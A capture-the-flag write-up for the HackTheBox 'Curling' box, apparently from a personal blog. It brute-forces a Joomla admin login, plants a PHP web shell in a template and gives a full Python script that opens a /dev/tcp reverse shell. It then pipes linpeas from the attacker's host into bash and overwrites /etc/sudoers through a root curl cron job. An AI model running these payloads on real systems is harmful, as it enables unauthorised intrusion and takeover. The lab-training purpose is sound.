

This is an Easy box from HackTheBox. 

It's OS is Linux, which is common in HackTheBox Machines.

It's exploration was through Web.

My rate for this machine is 6/10.

I enjoyed the way we get reverse shell on this box.

In the end you can find the automated script to explore this machine!

# Diagram

Here is the diagram for this machine. It's a resume from it.



# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.60
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive


## Port 80

Once we found just the port 80 opened, so let's focus on this one to enumerate it.

We open it on the browser and see what is being shown.


We look at the source code and find something useful, a secret.txt


It's base64


Seems to be a password

Start enumerate it with `Gobuster` and `Wfuzz`

```sh
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://10.10.10.150/FUZZ
```

```sh
gobuster dir -u http://10.10.10.150 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```


We find the interesting `administrator` page, let's try to log in with the credentials `admin:Curling2018!`


Not work, we could try to bruteforce it. Try to descovery the username with it

We generate the wordlist with `cewl`, as the site name suggests

```sh
cewl -w cewl.lista 10.10.10.150
```


We capture a login request for login on BurpSuite to use wfuzz in it


```
Cookie: c0548020854924e0aecd05ed9f5b672b=1j7421q4s8s4sugcmesf4k0h7a; 99fb082d992a92668ce87e5540bd20fa=3ing5m8njjt9daritdefr997fu
```

```
username=FUZZ&passwd=SENHA&option=com_login&task=login&return=aW5kZXgucGhw&e54846f868289414864167fa33d29a61=1
```

```SH
wfuzz -w cewl.lista -c --hc 200 -d 'username=FUZZ&passwd=Curling2018!&option=com_login&task=login&return=aW5kZXgucGhw&e54846f868289414864167fa33d29a61=1' -b '99fb082d992a92668ce87e5540bd20fa=3ing5m8njjt9daritdefr997fu' http://10.10.10.150/administrator/index.php
```

We found the login, that is `Floris`


# Joomla - RCE

Now we log in on the application


Navigate to `Extension` - `Templates` - `Protostar` - `New File`


We upload a php reverse shell


Remember to change the IP and Port on the script

Click in `New File`


Copy and Paster the reverse shell


Now we get the reverse shell on the box


Awesome.. Now let's try to automate it before the privilege escalation

# Script

Now we will build a script to automate it, and gain a reverse shell automated

We got a skeleton in python to start working on it

```py
#!/usr/bin/python3

import argparse
import requests
import sys

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--ipaddress', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.port
    username = args.username
    password = args.password

    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```


```py
#!/usr/bin/python3
# Date: 2021-09-02
# Hack The Box - Curling
# Author: 0x4rt3mis

import argparse
import requests
import sys
import base64
import urllib.parse
import socket, telnetlib
from threading import Thread
import threading

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# Setar o handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

#First we need to get the correct values to be passed on the log in request
def getValues(rhost):
    global return_value
    global other
    token_url = 'http://' + rhost + ':80/administrator/index.php'
    # Make the request to get return value
    token_page = r.get(token_url, proxies=proxies)
    # Get the index of the page, search for hidden in it
    index = token_page.text.find("hidden\"")
    # Get only the return value in it
    return_value = token_page.text[index:index+149].split('"')[-1]
    other = token_page.text[index:index+214].split('"')[-1]
    print("[+] Successsss to get the login values [+]")

# Now, we need to log on the Joomla
def login(rhost,username,password,return_value,other):
    url = "http://%s:80/administrator/index.php" %rhost
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "Connection": "close", "Referer": "http://%s/administrator/index.php" %rhost, "Upgrade-Insecure-Requests": "1"}
    data = {"username": "%s" %username , "passwd": "%s" %password, "option": "com_login", "task": "login", "return": "%s" %return_value, "%s" %other: "1"} 
    login = r.post(url, cookies=r.cookies, data=data, headers=headers, proxies=proxies)
    if "member function" in login.text:
        print("[+] Login Succeeesss! [+]")
        global upsecurity
        # Get the UPSECURITY
        token_url = 'http://' + rhost + ':80/administrator/index.php'
        # Make the request to get return value
        token_page = r.get(token_url, proxies=proxies)
        index = token_page.text.find("/administrator/index.php")
        upsecurity = token_page.text[index:index+300].split(';')[2].split('=')[0]
        print("[+] Security Token Got!!!! [+]")
    else:
        print("[+] Login Failed! Verify your Burp! [+]")
        exit
    
def uploadCmd(rhost,upsecurity):
    # Get on the template protostar page
    url = "http://%s:80/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==" %rhost
    r.get(url, proxies=proxies, cookies=r.cookies)
    # Let's create our comand php
    url = "http://%s:80/administrator/index.php?option=com_templates&task=template.createFile&id=506&file=aG9tZQ" %rhost
    data = {"name": "cmd", "type": "php", "address": '', "%s" %upsecurity: "1"}
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "Connection": "close", "Referer": "http://%s/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==" %rhost, "Upgrade-Insecure-Requests": "1"}
    r.post(url, proxies=proxies, cookies=r.cookies, data=data, headers=headers)
    # Let's save it with the php malicious
    url = "http://" + rhost + ":80/administrator/index.php?option=com_templates&view=template&id=506&file=L2NtZC5waHA%3D"
    r.get(url, proxies=proxies, cookies=r.cookies)
    # Save
    data1 = {"jform[source]": "<?php system($_GET['cmd']);?>", "task": "template.save", "%s" %upsecurity: "1", "jform[extension_id]": "506", "jform[filename]": "/cmd.php"}
    headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://%s" %rhost, "Connection": "close", "Referer": "http://" + rhost +"/administrator/index.php?option=com_templates&view=template&id=506&file=L2NtZC5waHA%3D", "Upgrade-Insecure-Requests": "1"}
    url = "http://%s:80/administrator/index.php?option=com_templates&view=template&id=506&file=L2NtZC5waHA=" %rhost
    r.post(url, proxies=proxies, cookies=r.cookies, data=data1, headers=headers)
    # Save
    url = "http://%s:80/administrator/index.php?option=com_templates&view=template&id=506&file=aG9tZQ==" %rhost
    r.get(url, proxies=proxies, cookies=r.cookies)
    # Let's trigger it
    
def getReverse(rhost,lhost,lport):
    print("[+] Now Let's get the reverse shell! [+]")
    reverse = "bash -i >& /dev/tcp/%s/%s 0>&1" %(lhost,lport)
    message_bytes = reverse.encode('ascii')
    base64_bytes = base64.b64encode(message_bytes)
    base64_message = base64_bytes.decode('ascii')

    payload = {
    'cmd': 'echo ' + base64_message + '|base64 -d | bash'
}
    payload_str = urllib.parse.urlencode(payload, safe='|')
    url = "http://%s:80/templates/protostar/cmd.php?" %rhost
    r.get(url, params=payload_str, proxies=proxies, cookies=r.cookies)
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Listening IP address for reverse shell', required=False)
    parser.add_argument('-lp', '--port', help='Listening port for reverse shell', required=False)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-p', '--password', help='Password value to set', required=False)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localip
    lport = args.port
    username = args.username
    password = args.password

    '''Here we call the functions'''

    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the security values
    getValues(rhost)
    # Log in and get security token
    login(rhost,username,password,return_value,other)
    # Upload the cmd
    uploadCmd(rhost,upsecurity)
    # Get the rev shell
    getReverse(rhost,lhost,lport)
if __name__ == '__main__':
    main()
```

# www-data -> Floris

Now that we already have a shell on this box, let's become root.

On the home page from floris we see a interesting archive


It's using some kind of magic... encript and zipped, after poking arround we get how to solve it

```sh
xxd -r password_backup > 1
file 1
bzcat 1 > 2
file 2
zcat 2 > 3
file 3
bzcat 3 > 4
file 4
tar -xf 4
ls
cat password.txt
```

We get the password from Floris - `5d<wdCbdZu)|hChXll`


So, we become Floris (we log in ssh, it's better)


Now, we will get root

# Floris -> root

Let's run `linpeas` to see what we can do

[Linpeas Link](https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/linpeas.sh)

Download in our Kali

```sh
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```


Now we execute on the machine

```sh
curl -s 10.10.14.15/linpeas.sh | bash
```


No sucess, nothing useful. We keep enumerating the box, and found two ways of privilege escalation in it.

## Cron

To see it we use the `pspy`

```
https://github.com/DominicBreuker/pspy
```

Download on the box


And execute it

We see that it's executing some `cron` activities


The first, is using cron. If we look at the admin-area folder, we see two archives, `input` and `report`.


Seems to be making a request using curl, we can try to see some archive on the user machine trough it


We see on the cron, that it's making a `curl -K` and after replacing it to the default file.

We see on the man, what we can do with the -K option


So we will make our Floris, a sudoers

```
url = "http://10.10.14.15/sudoers
output = "/etc/sudoers"
user-agent = "superagent/1.0"
```

This is our sudoers that we will send to the server


We change the input file, to come to my machine and get the sudoers file


Now, we become root


## Snapd

The other way is trough `snapd`


We search for exploit to it `searchsploit snap 2.32`


Donwload it on the machine


Execute it


Now we become root

